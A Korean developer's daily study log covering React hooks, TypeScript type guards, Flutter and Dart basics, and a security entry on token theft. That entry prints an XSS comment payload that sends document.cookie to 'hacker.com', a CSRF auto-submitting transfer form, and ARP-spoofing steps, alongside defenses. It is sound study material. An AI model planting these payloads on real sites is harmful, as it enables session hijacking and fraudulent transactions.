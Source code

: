 # Today I Learned

## 목차

- [Week 1 (2025-03-03 ~ 2025-03-07)](#week-1-2025-03-03---2025-03-07)
- [Week 2 (2025-03-10 ~ 2025-03-14)](#week-2-2025-03-10---2025-03-14)

---

## Week 1 (2025-03-03 ~ 2025-03-07)

<details>
<summary>2025-03-04 TUE</summary>

### useState

props를 부모에게 받았을 경우 자식 컴포넌트는 무조건 리렌더링됨. (state가 변경되지 않아도 리렌더링이 될수도 있음)

**리액트 리렌더링 조건**
>1. state 변경 시 리렌더링
>2. props 변경 시 리렌더링
>3. 부모 컴포넌트 리렌더링 발생 시 자식 컴포넌트 리렌더링

부모 컴포넌트 리렌더링 발생 시 모든 자식 컴포넌트도 리렌더링되는 것은 부하가 될 수 있다.

~~그러므로 props로 연결된 부분을 없애고 하위 컴포넌트에서 정의를 하는게 나을 수 있다.~~

⇒ 이런 경우 useMemo훅, useCallback, React.memo을 사용해 캐싱할 수 있다.

**setState의 활용**

state의 set 상태변화함수는 상태를 함수를 활용해 변경하는 역할을 한다. onChange나 onClick같은 이벤트리스너와 조합하면 사용자 입력에 따라 상태를 변경하는 기능을 만들 수 있다.

++ state 변수에는 객체도 등록이 가능함. 이를 통해 여러개의 state 변수를 관리하는 것보다 안전하게 관리가 가능함.

상태 변경 시에 다른 부분은 그대로 유지하고 한 부분만 변경하도록하여 적용한다.

- 스프레드 연산자 : …객체명을 통해 객체의 요소들을 한번에 표현할 수 있다.
- 자바스크립트의 문법으로 객체 속성에 동적으로 접근할 때 [벼]

### useMemo

useMemo 훅은 정의한 함수의 의존성 배열 값이 변경되지 않는 경우 이전 실행 결과를 재사용한다. 그래서 특정 컴포넌트의 리렌더링을 막을 수 있다. 

**단, useMemo는 메모리 사용량 증가로 이어지며 성능이 떨어질수도 있다.** 

**또한 메모이제이션 값이 너무 많아지면 관리가 어렵다.** 

### useCallback

useCallback 훅은 함수를 메모이제이션한다. 특정 함수의 실행 결과를 재사용한다.

### 의존성 배열

- 불필요한 재실행을 막고 싶다면 꼭 필요한 값만 의존성 배열에 넣어야 한다.
- 빈 배열을 넣으면 최초 1회만 실행됨. 그 이후로는 변경되는 값이 없기 때문에 다시 실행되지 않음.
- 의존성 배열을 생략하면 useMemo, useEffect 등의 훅이 매번 실행됨 → 최적화 효과가 없음

### useEffect와 useMemo

| Hook | 사용 목적 | 실행 시점 | 반환 값 | 주의할 점 |
| --- | --- | --- | --- | --- |
| `useEffect` | 부수 효과 (Side Effects) 처리 | 렌더링 후 (After Render) 실행 | `undefined` (리턴값 없음) | 비동기 작업, DOM 조작 등에 사용 |
| `useMemo` | 값(Value) 메모이제이션 | 렌더링 중 (During Render) 실행 | 캐싱된 값(Value) | 연산이 무거운 경우에만 사용해야 성능 최적화됨 |

useMemo는 렌더링 도중 실행되며 비동기 작업 불가능

```
💡 useMemo 프로세스

의존성 배열에 있는 값이 변경 → 컴포넌트가 다시 렌더링 → 그 렌더링 과정 중에 useMemo가 실행
```

### useRef

이전 값과 새로운 값을 연결하고, 렌더링과는 무관하게 값이 유지되어야 할 때 사용됨.

```tsx
const a = useRef(초기값); // ref 객체 선언
a.current // ref 객체의 상태 조회
```

리렌더링을 해도 ref객체의 상태는 유지되고 ref객체의 상태가 변해도 렌더링이 발생하지 않는다는 특징을 갖고 있다.

## 번외

### 타입스크립트의 type guard

이전까지 타입스크립트를 사용하면서 `any` 만 안쓰면 되겠지 하며 assertion type 일명 `as` 키워드를 자주 사용해왔다. 그 이유는 null이 올 수 있더라도 변수의 타입이 string 타입이라는 개인적인? 확신이 있었기 때문이다. 

JS에서는 타입 좁히기(type narrowing)가 타입을 더 쉽게 예측할 수 있는 작업이었고, `as` 키워드 또한 type narrowing 중 하나의 수단이라고 생각했다. 

그런데 공부하다보니 이 `as` 의 타입 확정은 오히려 타입스크립트의 타입 검사 기능을 포기하겠다는 것이나 다름없다고 한다. 그 이유는 개발자가 변수에 어떤 타입이 올지 확실히 인지했다 하여도 `as` 선언에서 실수를 한다면 런타임에러가 터지기 전까지 인지할 수 없기 때문이다.

그 이유는 다음과 같다.

1. 자신은 반드시 string 타입이 올 것이라 생각해 as string을 작성함.
2. 하지만 그것은 개발자의 착각일 가능성이 있거나 요구사항 변경에 따라 변하게 될 가능성이 있음
3. 그렇게 컴파일 시점을 자연스럽게 통과하더라도 런타임에서 오류가 터질 수 있음

비유하자면 이러한 방식은 컴파일러에게 “내가 이 타입을 너보다 더 잘알고있음. 믿어주셈 ㅇㅇ” 라고 말하는 것과 같다. 어림도 없다.

### **결론**

as보다 type narrowing의 올바른 기법은 null 체크 혹은 typeof나 instanceof를 사용한 type guard 기법이다. 이러한 type guard 기법은 무조건 타입을 확정짓는 as와 달리 `타입 검사를 통과하면 타입이 확정` 되기 때문에 옳은 방식이다.

### 자바의 instanceof

> </br>  
> typeof나 instanceof를 사용한 type narrowing은 자바에서는 지양해야 한다. 왜냐하면 instanceof 체크가 필요한 부분이 있다면 그 부분은 객체지향적으로 분리가 필요한 부분일 가능성이 높기 때문이다.
> 
> 1. OCP 위반 : 새로운 타입이 추가될 때마다 instanceof 체크를 변경해야 함.
> 2. TDA(tell don’t ask) 위반: 데이터를 요구하지 않고 객체가 자연스럽게 상호작용하도록해야함. 데이터를 요구하는 행위는 두 함수의 데이터 결합이 이뤄졌다는 뜻임
> 3. 다형성 위반 : instanceof 체크는 강제로 그 타입인 상태일 때의 행동을 규정하므로 미리 설정해둔 동작을 벗어난 동작을 함.
> </br>
</details>

<details>
<summary>2025-03-05 WED</summary>

# 토큰 탈취가 일어나는 과정과 대응방안을 설명해주세요
토큰 탈취가 일어나는 과정, 즉 공격자가 토큰을 탈취하는 방법에는 여러가지가 있습니다. 

## XSS(Cross Site Scripting) 공격

XSS는 보안이 취약한 웹사이트에 악의적인 스크립트를 삽입하여 사용자 브라우저에서 실행되도록 하는 공격입니다.

1. 취약점이 있는 웹사이트의 특징?
    
    다음과 같은 웹사이트는 취약점이 있을 수 있습니다.
    
    - 입력값 검증 X : 서버에서 위험한 입력을 검증한다면 사전 방지할 수 있음
    - innerHTML을 사용해 DOM을 직접 조작하는 웹사이트 : innerHTML은 문자열을 HTML로 바꾸기 때문에 이러한 스크립트에 더욱 취약함
    - eval 함수를 사용하는 웹사이트(eval은 입력을 코드로 실행할 수 있는 JS 함수임)
    - HttpOnly 쿠키 미사용 : HttpOnly가 적용된 쿠키는 접근 불가능하므로 보호될 수 있음
    
    해커는 이러한 취약점이 있는 웹사이트에 스크립트를 삽입합니다. 해커와 유저는 서로 다른 클라이언트이기 때문에 서로에게 영향을 주지는 않지만 **해커가 조작한 데이터가 DB에 삽입되는 경우**는 다릅니다.
    

1. 공격자 스크립트의 동작 과정
    
    EX) 해커가 댓글을 작성한 후 그 스크립트가 유저의 PC에서 동작하는 과정
    
    1. 댓글 스크립트
    
    ```tsx
    좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    ```
    
    1. 유저 측에서 확인되는 스크립트
    
    ```tsx
    <div class="comment">
      좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    </div>
    ```
    
    이런 식으로 서버를 경유해서 스크립트가 저장됩니다.
    
    클라이언트가 이 사이트에 접근했을 때 해커의 사이트로 쿠키와 함께 이미지 요청을 발송하게 됩니다.
    

 

## CSRF 공격

1. **사용자 인증**
    
    사용자가 웹사이트에 로그인하여 인증 쿠키를 받습니다.
    
2. **인증 상태 유지**
    
    브라우저는 해당 웹사이트에 대한 쿠키를 저장하고 유지합니다.
    
3. **악성 사이트 방문**
    
    사용자가 로그인 상태를 유지한 채로 공격자의 웹사이트나 악성 이메일 링크를 클릭합니다.
    
4. **위조된 요청 실행**
    
    공격자의 사이트는 자동으로 대상 웹사이트에 요청을 보내는 코드를 실행합니다. 예를 들면:
    
    - 자동 제출되는 폼
    - 이미지 태그를 이용한 GET 요청
    - JavaScript를 이용한 요청
5. **브라우저의 쿠키 전송**
    
    브라우저는 요청과 함께 대상 웹사이트에 대한 인증 쿠키를 자동으로 전송합니다.
    
6. **서버의 요청 처리**
    
    대상 웹사이트 서버는 유효한 인증 쿠키를 받았으므로 요청이 합법적인 사용자로부터 온 것으로 간주하고 처리합니다.
    

EX) 악성 웹사이트의 HTML에서 사용자의 쿠키를 활용해 요청을 보내는 경우

```tsx
<!-- 악성 웹사이트의 HTML -->
<body onload="document.getElementById('transfer-form').submit()">
  <form id="transfer-form" action="https://bank.example.com/api/transfer" method="POST">
    <input type="hidden" name="recipient" value="attacker">
    <input type="hidden" name="amount" value="10000">
  </form>
</body>
```

위와 같은 경우 해커가 미리 지정한 value 값으로 계좌이체를 진행하게 됩니다.

### CSRF 방어 방법

1. csrf 토큰을 사용 : 서버에서 생성한 랜덤 토큰을 요청마다 포함시켜 same-site임을 검증
2. same-site 쿠키 속성 : 같은 same site 요청인 경우에만 쿠키 전송
3. Origin 헤더 검증 : CORS를 통해 허용된 Origin 헤더인 경우에 요청을 허용.

## MITM(Man-in-the-Middle) 공격

흔히 말하는 중간에서 공격자가 데이터 전송을 가로채는 기법입니다.

HTTPS로 암호화된 데이터 전송이 아닌 경우 중간에 헤더에 담긴 토큰을 탈취한 후 해석하는 것이 가능합니다.

1. 공격자는 통신 경로(네트워크)에 침입합니다.
    - ARP 스푸핑: 로컬 네트워크의 캐시를 조작해 피해자의 트래픽을 자신에게 리디렉션 하도록 설정함(MAC주소와 IP주소간의 매핑을 조작)
    - DNS 스푸핑: DNS 서버를 조작해 해커의 IP로 요청을 보내도록함
2. 트래픽 가로채기
    
    **ARP 스푸핑**
    
    - 공격자는 로컬 네트워크에서 지속적으로 위조된 ARP 메시지를 브로드캐스트합니다.
    - 이 메시지는 "라우터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 알립니다.
    - 또한 "대상 컴퓨터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 라우터에 알립니다.
    - 피해자의 컴퓨터와 라우터는 ARP 캐시를 업데이트합니다.
    - 결과적으로 피해자와 라우터 사이의 모든 트래픽이 공격자의 컴퓨터를 통과하게 됩니다
</details>

<details>
<summary>2025-03-06 THU</summary>

## 플러터 VS 리액트네이티브
### 크로스 플랫폼 앱이란?
크로스 플랫폼 앱은 하나의 소스 코드로 Android, IOS에서 똑같이 작동하는 앱을 의미합니다.
네이티브 앱과 대조되는 개념입니다.
기존의 네이티브 앱은 Android, IOS가 각각 호환이 안되기 때문에 두개의 앱을 만드는 것과 다름이 없었습니다. 근데 크로스 플랫폼 앱 하나가 있다면 두 운영체제를 동시에 개발하고 운영할 수 있다는 장점이 있습니다.

### 리액트 네이티브란?
JS와 React를 기반으로 만들어졌기 때문에 기본 지식을 알고 있는 사람이라면 RN을 시작할 수 있습니다.
리액트 네이티브는 런타임 중에 JS 브릿지를 생성하고 JS 코드를 네이티브 코드로 변환해서 컴파일함. 그래서 JS의 Object-C API로 IOS 컴포넌트를 만들고 자바 API로 안드로이드 컴포넌트로 렌더링할 수 있음.

### 리액트 네이티브의 차별점?
- 리액트 네이티브는 CodePush라는 시스템을 사용해 기존 출시한 앱을 원격으로 업데이트할 수 있습니다.
- 단, 프로젝트의 리액트 네이티브 버전 업데이트가 어렵습니다.
- 범용적인 개발 언어!(JS/TS)
- 운영체제 별 순정 UI를 사용함.

### 웹 개발자의 접근성이 정말 낮은가?
- 여러 문법들과 Hook, 라이프 사이클은 React와 동일하지만 RN은 모바일이기 때문에 안드로이드, IOS에 대한 기초적인 지식이 필요합니다.

### 플러터란?
Flutter는  ios, Android, 데스크탑, 웹앱을 구현하는 크로스 플랫폼 프레임워크입니다. 다소 생소한 Dart 언어를 사용하는데 플러터는 RN과 달리 별도의 브릿지가 필요없기 때문에 성능이 우수합니다.

### 브릿지가 없지만 Flutter는 어떻게 여러 플랫폼을 지원할까?
- Dart 언어는 앱이 빌드되기 전에 코드를 미리 컴파일하는 Ahead-of-time(AOT) 전략을 지원합니다. 컴파일 타임에 Dart 코드를 네이티브 코드로 컴파일하기 때문에 브릿지가 필요없이 각 플랫폼과 직접 통신할 수 있습니다. 그래서 앱 시작 속도도 빠릅니다.
- 또한 자체적인 위젯을 canvas 위에 직접 렌더링하기 때문에 여러 플랫폼에 동일한 UI를 제공할 수 있습니다. (자체 UI)
- 개발환경도 다양할 뿐더러 다양한 빌드 모드를 지원함

### 플러터의 차별점?
- 플러터의 커뮤니티가 큼
- 자체 디자인 언어를 가진 커스텀 UI를 사용한 앱을 만듬
- 프로젝트의 플러터 버전 업데이트가 쉬움 (아마 Dart는 JS/TS와 달리 자체 의존성을 많이 사용하기 때문인듯. RN은은 open source 의존성을 사용해서 어려운 듯)

</details>

---

## Week 2 (2025-03-10 ~ 2025-03-14)

<details>
<summary>2025-03-10 MON</summary>
Dart는 코드를 여러 운영체제에 맞도록 컴파일 해줌. 

- jit(just in time) : aot와 같이 컴파일 방식은 빌드에 오래 걸리므로 개발 중에는 변경을 확인하는 경우 좋지 않음. 이 때 JIT를 통해 코드를 화면 상으로 바로 확인할 수 있음. 즉, 개발 중에는 JIT 컴파일러를 사용하고 배포 시에는 AOT 컴파일러를 사용함
- aot(ahead of time) : 코드를 바이너리로 컴파일한 후에 배포함.

또한 Dart는 null safety함. 그리고 다른 언어로 컴파일할 수 있다는 장점도 있음. 즉, 여러 플랫폼에 적용하기 좋은 언어임.

Dart와 Flutter는 모두 구글에서 만들어졌기 때문에 서로 잘 맞고 서로를 보완하는 방식으로 발전하는 중임. 이것은 다른 프레임워크에 비해 Flutter가 가진 장점임.

> 기본 플랫폼: 모바일 및 데스크톱 장치를 대상으로 하는 앱의 경우 Dart에는 **JIT(Just-In-Time) 컴파일** 기능이 있는 Dart VM과 기계 코드 생성을 위한 **AOT(Ahead-of-Time) 컴파일러**가 모두 포함되어 있습니다.
> 
> 
> 웹 플랫폼: 웹을 대상으로 하는 앱의 경우 Dart는 개발 또는 프로덕션 목적으로 컴파일할 수 있습니다. 웹 컴파일러는 Dart를 JavaScript로 변환합니다.
> 

쉽게 말해 짜스나 파이썬은 인터프리터 언어의 특성 때문에 앱 프로덕션 환경에서 컴파일 언어에 비해 성능 차이가 있음. 대신 개발 환경에서 매우 빠른 피드백이 가능함. 반대로 자바같은 컴파일 언어는 이미 컴파일된 상태에서 앱을 실행하기 때문에 프로덕션 환경에서 속도가 비교적 빠른 편임. 반대로 개발할 때는 매번 빌드하느라 시간이 다 가기 마련인데.. 아무튼 이걸 짬뽕한 마치 링크드리스트이면서 어레이리스트인듯한 무적같은 포지션을 갖게 됨.(아이디어 좋다)

*JIT 컴파일러는 많은 언어에서 사용되며 런타임에서 핫스팟 최적화 방식을 통해 실행시간을 엄청나게 줄여놨다고 한다. JIT 컴파일러는 프로그램의 실행 시점에 코드를 분석하고 최적화한다. 그래서 현대 어플리케이션은 언어적 차이가 많이 줄어들었다.

### main 함수

- main함수에서 내가 쓴 코드가 호출됨. 반드시 main함수가 있어야 함
- Dart는 또한 세미콜론을 반드시 사용해야 함
- Dart에서는 세미콜론도 하나의 기능을 하는데 세미콜론을 제외함으로서 동작이 달라질 수 있음

### var 키워드

- 암시적 타입
    
    var 타입을 선언하는데 이 부분은 자바스크립트처럼 타입을 추론하고 선언해줌
    
    단 js와 차이점으로는 변수의 타입이 한번 선언되면 그 이후에 다른 타입을 집어넣을 수 없음.
    
- 명시적 타입
    
    String 처럼 명시적으로 선언할 수 있음
    

명시를 하는 것이 반드시 좋은 것은 아니고 Dart 스타일 가이드에서는 지역 변수에는 `var`를, 공개 API나 클래스 필드에는 명시적 타입을 권장함. (지역 변수는 외부에서 타입을 명시한 경우 내부에서 타입 추론이 거의 정확함. 그래서 타입을 따로 명시할 필요가 적으며 코드가 간결해지고 중복된 정보를 줄일 수 있음. 또한 구체적인 타입에 의존하지 않아 추상화 수준을 높게 유지할 수 있음)

*DRY(Don’t Repeat Yourself) 원칙 : 타입 정보를 중복으로 작성하지 않게 함. (추상화 수준 유지, 중복 감소, 변경 감소)

```java
List<String> list = new ArrayList<>(); // 삽입하려는 객체의 타입 정보를 중복 명시하지 않음
```

또한 var변수는 업데이트가 가능함

### dynamic type

dart에서는 타입에 대해 숨통을 틔워준다. `var name;` 이런 식으로 선언하는 경우 name 변수는 어떠한 변수도 담을 수 있다.(컴파일 에러도 안뜸) 근데 권장하지 않는 이유는 역시나 불확실성 때문임. 또한 변수의 타입이 확실하지 않기 때문에 변수 타입이 뭔지 물어봐야 하며 그렇지 않으면 멤버 함수나 멤버 변수를 사용할 수 없음. (TDA원칙 위반: 객체에게 데이터나 타입을 요구함.)

혹은 `dynamic name;` 요런 방식으로 다이나믹 타입을 선언할 수 있음. 

### null safety

- dart는 null에 대한 안정성. 즉, 런타임에서 null 발생 시 오류를 일으킴. null safety는 좋지만 null이 표현하는 ‘아무것도 없음’ 이 필요한 때도 있음.이 경우 `String? name = "name";`  타입 스크립트처럼 ?를 붙여주면 null을 포함할 수 있음.

</details>